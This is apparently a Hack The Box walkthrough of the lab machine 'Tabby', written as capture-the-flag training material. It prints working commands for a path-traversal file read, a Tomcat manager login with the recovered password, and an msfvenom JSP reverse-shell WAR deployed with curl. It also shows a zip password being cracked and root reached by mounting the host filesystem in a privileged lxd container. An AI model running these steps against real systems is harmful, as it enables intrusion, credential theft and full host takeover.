

Tabby - K3nX
- Tabby is Easy Linux Machine and ip address is 10.10.10.194
Nmap
#cat tabby.nmap
# Nmap 7.80 scan initiated Mon Jun 22 20:01:05 2020 as: nmap -sSV -O -A -T4 -sC -Pn -oN tabby.nmap 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.45s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open http Apache Tomcat
|_http-title: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=6/22%OT=22%CT=1%CU=33848%PV=Y%DS=2%DC=T%G=Y%TM=5EF0B2C
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54BST11NW7%O2=M54BST11NW7%O3=M54BNNT11NW7%O4=M54BST11NW7%O5=M54BST1
OS:1NW7%O6=M54BST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54BNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 1025/tcp)
HOP RTT ADDRESS
1 424.40 ms 10.10.16.1
2 219.71 ms 10.10.10.194
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 22 20:01:59 2020 -- 1 IP address (1 host up) scanned in 55.22 seconds
As nmap result port 22 (ssh),port 80 (apache httpd) and port 8080 (tomcat) are open
Web Enumeration
Nmap result show port 80 is open let check this, I found this webpage
- In web page , I found the name megahosting , I add this ip address as megahosting.htb into my
/etc/hostsfile After few min checking , I found one interesting thing this is http://megahosting.htb/news.php?file=statement
I know this may be LFI , Let'check LFI, I tried to see /etc/passwd , Ohh Lucking I got
[root@arch /tmp]# curl http://megahosting.htb/news.php?file=../../../../../../etc/passwd root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false tomcat:x:997:997::/opt/tomcat:/bin/false mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false ash:x:1000:1000:clive:/home/ash:/bin/bashI check port 8080 tomcat , I found webpage like this

In this web page , I found tomcat user file location , I tried to see this xml file , But it's not work
- I saw another dir in this tomcat webpage
- In this time I think this tomcat-users.xml file location shown in this webpage is
/etc/tomcat9/tomcat-users.xmland this tomcat installed home dir is/usr/share/tomcat9 - I think this xml file location can be
/usr/share/tomcat9/etc/tomcat-users.xml - Thank my fri for giving a little hint about this and I check this location
- Now I got tomcat username and password
This Apache tomcat username is tomcat and password is $3cureP4s5w0rd123!
I used this usernamd and password to login tomcat
Login Successful
I think this is apache tomcat , this is writen by java , so we need java reverse shell to get shell
I creted reverse shell with msfvenom this file type is war, Let's go to upload
- Afer few minutes searching , I found how to upload file into tomcat server with curl command line
Getting Low Priv Shell
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=youripaddress LPORT=9001 -f war > test.war
Payload size: 1101 bytes
Final size of war file: 1101 bytes
# curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file test.war "http://megahosting.htb:8080//manager/text/deploy?path=/test.war"
OK - Deployed application at context path [/test.war]
User
I found one interesting backup.zip file in /var/www/html/files directory
I used curl command to download this backup, I unzip this backup.zip but this file with password we need to crack this zip file
- I used johntheripper to crack this backupzip file
I got a password this is admin@it , After reading some hints from hackthebox forum , I know this is userpassword , I used su command to change tomcat user to user ash
Finally I got user access and user flag
Privileges Escalation
- I used id command , I found this user contain group of lxd , I think we can use this lxd to privileges escalation
- I found awesome article about lxd privileges escalationfrom hacking article blog
- So, we downloaded the build alpine using the GitHub repose. This is build alpine github repo lxd alpine builder
./build-alpine Determining the latest release... v3.12 Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64 Downloading alpine-mirrors-3.5.10-r0.apk tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' Downloading alpine-keys-2.2-r0.apk tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' Downloading apk-tools-static-2.10.5-r1.apk tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' alpine-devel@lists.alpinelinux.org-4a6a0840.rsa.pub: OK Verified OK Selecting mirror http://linorg.usp.br/AlpineLinux/v3.12/main fetch http://linorg.usp.br/AlpineLinux/v3.12/main/x86_64/APKINDEX.tar.gz (1/19) Installing musl (1.1.24-r9) (2/19) Installing busybox (1.31.1-r19) Executing busybox-1.31.1-r19.post-install (3/19) Installing alpine-baselayout (3.2.0-r7) Executing alpine-baselayout-3.2.0-r7.pre-install Executing alpine-baselayout-3.2.0-r7.post-install (4/19) Installing openrc (0.42.1-r10) Executing openrc-0.42.1-r10.post-install (5/19) Installing alpine-conf (3.9.0-r1) (6/19) Installing libcrypto1.1 (1.1.1g-r0) (7/19) Installing libssl1.1 (1.1.1g-r0) (8/19) Installing ca-certificates-bundle (20201127-r4) (9/19) Installing libtls-standalone (2.9.1-r1) (10/19) Installing ssl_client (1.31.1-r19) (11/19) Installing zlib (1.2.11-r3) (12/19) Installing apk-tools (2.10.5-r1) (13/19) Installing busybox-suid (1.31.1-r19) (14/19) Installing busybox-initscripts (3.2-r2) Executing busybox-initscripts-3.2-r2.post-install (15/19) Installing scanelf (1.2.6-r0) (16/19) Installing musl-utils (1.1.24-r9) (17/19) Installing libc-utils (0.7.2-r3) (18/19) Installing alpine-keys (2.2-r0) (19/19) Installing alpine-base (3.12.0-r0) Executing busybox-1.31.1-r19.trigger OK: 8 MiB in 19 packages
After Building , I got tar file , I used python simplehttp server to move this tar file into attacking machine
After downloading this file and i used lxd command to privileges escalation into root
ash@tabby:~$ lxc image import ./alpine.tar.gz --alias myimage
alpine.tar.gz --alias myimage
To start your first instance, try: lxc launch ubuntu:18.04
ash@tabby:~$ lxc image list
lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCHITECTURE | TYPE | SIZE | UPLOAD DATE |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
| myimage | 2b18709a1e70 | no | alpine v3.12 (20200703_15:29) | x86_64 | CONTAINER | 3.05MB | Jul 3, 2020 at 9:21pm (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
ash@tabby:~$ lxc init myimage ignite -c security.privileged=true
lxc init myimage ignite -c security.privileged=true
Creating ignite
ash@tabby:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
ash@tabby:~$ lxc start ignite
lxc start ignite
ash@tabby:~$ lxc exec ignite /bin/sh
~ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # ls
ls
root.txt snap
/mnt/root/root # cat root.txt
[REDACTED]
- Now I got root access into lxd container and I got root.txt flag
- Finally We owned this machine